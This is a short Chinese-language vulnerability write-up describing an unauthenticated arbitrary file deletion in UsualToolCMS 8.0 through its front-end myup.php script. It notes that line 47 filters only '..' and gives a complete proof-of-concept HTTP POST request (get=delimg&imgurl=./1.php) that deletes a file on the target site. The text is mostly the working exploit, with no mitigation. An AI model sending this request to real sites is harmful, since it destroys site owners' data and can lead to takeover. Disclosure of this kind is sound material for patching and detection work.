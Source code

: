 ```yaml
---
title: UsualToolcms 8.0 前台任意文件删除
id: zhfly3212
---
```


# UsualToolcms前台任意文件删除

## 一、漏洞简介

前台myup.php文件最后一段存在任意文件删除

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点：http://0-sec.org/myup.php

![image](../img/35846b3689dd3314bca34877f23e55eb.png)

第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![image](../img/9bfc4de904966df975fdba75d652eea0.png)

![image](../img/d0d6827f5b5e9dcd98dab0be1c582e93.png)

```
POST /UsualToolCMS/myup.php HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `get=delimg&imgurl=./1.php` 
```